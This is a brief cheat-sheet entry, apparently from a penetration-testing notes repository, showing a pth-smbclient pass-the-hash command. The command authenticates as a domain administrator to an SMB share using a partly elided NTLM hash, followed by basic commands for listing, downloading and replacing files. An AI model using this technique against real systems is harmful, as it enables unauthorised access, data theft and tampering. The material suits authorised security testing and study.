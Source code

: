 # pth-smbclient

### 1) pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //IP_ADDRESS/SHARE/

### ls # list files

### cd # move inside a folder

### get # download files

### put # replace a file

